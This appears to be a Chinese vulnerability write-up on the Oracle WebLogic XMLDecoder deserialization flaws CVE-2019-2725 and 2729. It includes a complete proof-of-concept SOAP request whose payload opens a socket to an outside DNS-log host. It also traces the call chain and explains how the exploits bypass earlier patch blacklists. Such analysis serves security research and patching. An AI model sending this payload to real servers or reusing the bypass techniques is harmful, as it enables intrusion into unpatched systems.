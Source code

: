 # CVE-2019-2725 & 2729 反序列化
影响版本
```
Oracle WebLogic Server 10.*
Oracle WebLogic Server 12.1.3
```
影响组件
```
bea_wls9_async_response.war
wsat.war 
```
## POC
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 748
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
    <class>
        <string>java.net.Socket</string>
        <void>
            <string>d2r0h9.dnslog.cn</string>
            <int>80</int>
        </void>
    </class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
## 原理
主要在于bea_wls9_async_response.war和wsat.war组件中处理soap消息时使用了XMLDecoder进行解析xml数据,触发了XMLDecoder反序列化漏洞,而这次也则绕过了CVE-2017-12071的补丁. 
### 调用链
>Tips:调试时不知道从哪打断点时直接在最后的ProcessBuilder类打断点,则可得到调用链,再反向寻找相关组件的触发流程.

调用链如下,从`Soapprocessor.process`开始处理soap数据,最后从`WorkContextXmlInputAdapter.readUTF`中进入`XMLDecoder.readObject`触发XMLDecoder反序列化.
![](4.png)

在`process`中根据请求类型为post,调用`handlePost`,在`handlePost`中主要为解析和封装soap消息,最后调用var7即WsSkel类的invoke方法.
![](5.png)
在`WsSkel.invoke`中实例化了一个ServerDispatcher对象,并设置了其Wsport和Connection属性,分别为请求的服务url和http,然后调用`ServerDispatcher.dispatch`.
![](6.png)
在`ServerDispatcher.dispatch`中调用` this.getHandlerChain().handleRequest(this.getContext(), var6);`,而getHandlerChain()即为`HandlerIterator`,即继续调用`HandlerIterator.handleRequest`.
![](7.png)
在`handleRequest`中var4赋为了`WorkAreaServerHandler`.
![](8.png)
然后调用了`WorkAreaServerHandler.handleRequest`,其中var3为通过`WlMessageContext var3 = WlMessageContext.narrow(var1)`获得的MessageContext对象.
![](9.png)
在`WorkAreaServerHandler.handleRequest`中,获取到soap的headers,然后实例化了一个`WorkContextMapInterceptor`对象,将获取到的WorkAreaHeader(var4)传入`new WorkContextXmlInputAdapter`中,再将该`WorkContextXmlInputAdapter`传入`receiveRequest`中.
![](10.png)
然后经过`WorkContextLocalMap.receiveRequest`调用`WorkContextEntryImpl.readEntry`,最后在`readEntry`中调用`WorkContextXmlInputAdapter.readUTF`.
![](11.png)
而在`readUTF`中则直接返回调用xmlDecoder.readObect()触发XMLDecoder反序列化.
![](12.png)
### Bypass CVE-2017-12071
该漏洞与weblogic之前的CVE-2017-3506&CVE-2017-12071原理类似,只不过入口点不一样,最后都是触发XMLDecoder反序列化漏洞,而该漏洞主要在于绕过了之前CVE-2017-12071补丁中的黑名单.
因为在之前的补丁中无法调用对象的对应方法,所以在该漏洞中的利用思路为在对象的构造函数中触发rce,在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞造成了远程代码执行。
#### payload构造
在官方文档中可以看到class标签也可以指定实例化任意类,从而绕过了`object、new、method`关键字黑名单来实例化对象.
![](13.png)
因为`void`标签受限的原因,无法调用对象的相应方法,则从对象实例化过程中的构造函数下手,通过对象自动执行的构造函数来触发RCE,同时因为array标签的限制,构造函数的参数只能为bytes类型.思路则为利用class标签来实例化类,再利用void标签传入bytes类型的参数进行利用.

**利用链:**
Weblogic自带的1.6:jdk7u21 gadget
12.1.3: org.slf4j.ext.EventData
# BypassCVE-2019-2725->2729
在2019-2725的补丁中继续把class加入了黑名单,而在2729中则是使用`<array method=”forName”>`来代替class标签,因为在weblogic自带的jdk1.6来说,这两个标签是相同效果的可以进行替换.而在2729的补丁中则使用了白名单,且对白名单的标签进行了属性的类型限制.

##
参考:  
https://www.freebuf.com/articles/web/202203.html  
https://paper.seebug.org/909/